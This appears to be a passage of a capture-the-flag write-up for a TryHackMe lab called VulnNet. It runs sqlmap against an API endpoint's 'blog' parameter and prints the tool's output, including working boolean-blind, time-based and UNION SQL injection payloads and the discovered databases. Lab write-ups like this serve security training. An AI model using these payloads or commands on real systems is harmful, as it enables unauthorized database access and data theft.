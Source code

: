 <img width="1056" height="599" alt="image" src="https://github.com/user-attachments/assets/aeda65c5-117b-4fd5-af55-3e12854c97fc" />

<h2>blog.vulnnet.thm</h2>

<p>

- Windows Search Vulnerability Can be Abused to Deliver ...<br>
- http://blog.vulnnet.thm/post1.php<br>


<img width="1185" height="698" alt="image" src="https://github.com/user-attachments/assets/15b96f03-25cf-4a4e-adf4-df1ae7907e74" />

<br>
<br>

<img width="1189" height="532" alt="image" src="https://github.com/user-attachments/assets/6985c747-81f2-4765-8417-41fae071b740" />

<br>
<br>

<h2>[admin1.vulnnet.thm/typo3/index.php](http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1)</h2>

<img width="1191" height="174" alt="image" src="https://github.com/user-attachments/assets/7bd2928d-1cb2-4963-afd9-92db75712616" />

<br>
<br>
<h2>sqlmap</h2>

```bash
:~# sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --batch --dbs
```

<p>

- reflective value(s) found and filtering out<br>
- 'ORDER BY' technique appears to be usable.<br>
- GET parameter 'blog' is vulnerable.<br>
- back-end DMBS: MySQL >= 5.0.12<br>
- available databases: blog, information_schema, vn_admin</p>


```bash
[xx:xx:xx] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[xx:xx:xx] [INFO] target URL appears to have 3 columns in query
[xx:xx:xx] [INFO] GET parameter 'blog' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'blog' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 73 HTTP(s) requests:
---
Parameter: blog (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: blog=1 AND 4875=4875

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blog=1 AND (SELECT 2265 FROM (SELECT(SLEEP(5)))epNv)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: blog=-9890 UNION ALL SELECT CONCAT(0x7176707671,0x645944777150676a665a4a42716f6a64634f6e6d53484e79754176566f4c524a6c76496b574d634c,0x716b767171),NULL,NULL-- -
---
[xx:xx:xx] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[xx:xx:xx] [INFO] fetching database names
[xx:xx:xx] [INFO] retrieved: 'information_schema'
```